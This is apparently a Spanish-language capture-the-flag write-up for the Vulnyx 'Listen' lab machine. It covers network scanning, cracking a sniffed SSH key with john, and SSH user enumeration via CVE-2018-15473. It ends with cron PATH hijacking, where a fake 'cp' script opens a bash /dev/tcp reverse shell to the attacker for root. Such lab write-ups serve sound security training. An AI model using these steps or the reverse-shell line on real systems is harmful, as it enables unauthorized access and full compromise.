 # Vulnyx-Listen

## Identificación de la IP en la red
```bash
arp-scan -I eth0 --localnet
# (IP-victima)  08:00:27:30:e0:26       PCS Systemtechnik GmbH
```

## Escaneo de Puertos
```bash
nmap -p- --min-rate 2000 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap 
# 22/tcp   abierto    ssh     OpenSSH 7.7 (protocol 2.0)
# 8000/tcp abierto    http    SimpleHTTPServer 0.6 (Python 3.7.3)
```

Dentro del puerto 8000 encontramos una pista que nos indica que debemos escuchar. Utilizamos Wireshark para escanear la red y encontramos un archivo id_rsa.

Guardamos el id_rsa y procedemos a crackearlo.

## Crackeo de id_rsa
```bash
nano id_rsa
# [Pegamos el contenido]
# Es importante copiar el id_rsa como "Copy as Plain Text"

ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
# Contraseña: i********w

chmod 600 id_rsa
```

Ahora que tenemos el id_rsa crackeado, procedemos a buscar usuarios. Encontramos un exploit CVE que enumera usuarios en SSH.

## Enumeración de Usuarios
```bash
python3 /home/kali/exploits/openssh/userenum7.7/CVE-2018-15473/CVE-2018-15473.py (IP-victima) -w /home/kali/wordlists666/names.txt
# abel is a valid username
```

Con los datos que tenemos, ingresamos vía SSH.

## Acceso SSH como Usuario
```bash
ssh -i id_rsa abel@(IP-victima)
# Contraseña: i*******w
```

Ya estamos dentro como `abel`, ahora realizamos el tratamiento de la TTY.

## Tratamiento de TTY
```bash
script /dev/null -c bash
export TERM=xterm
export SHELL=bash
```

Luego de explorar, encontramos un script que ejecuta `cp` como root.

## Exploración y Análisis del Cron Job
```bash
cat /etc/crontab
# SHELL=/bin/sh
# PATH=/usr/local/sbin:/dev/shm:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# * * * * * root cp /var/www/html/index.html /tmp

echo $PATH
# /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Podemos realizar un ataque de "path hijacking", pero hay un detalle más. El ataque no es al `$PATH`, sino que el script que ejecuta root va a un `$PATH` propio hecho para esta máquina.

Vamos a hacer una reverseshell con el nombre de `cp` e introducirla en el `$PATH`, específicamente en la ruta `/dev/shm`, ya que tenemos permisos de escritura.

## Creación de Reverseshell
```bash
cd /dev/shm

nano cp
# !/bin/bash

bash -i >& /dev/tcp/(IP-atacante)/443 0>&1

chmod 777 cp
# Damos todos los permisos a "cp"
```

Nos ponemos en escucha con netcat.

## Escucha para Reverseshell
```bash
nc -nlvp 443
# Esperamos aproximadamente un minuto
```

Y ya nos llega la reverseshell como root (:D).

## Verificación de Root
```bash
whoami
# root
```
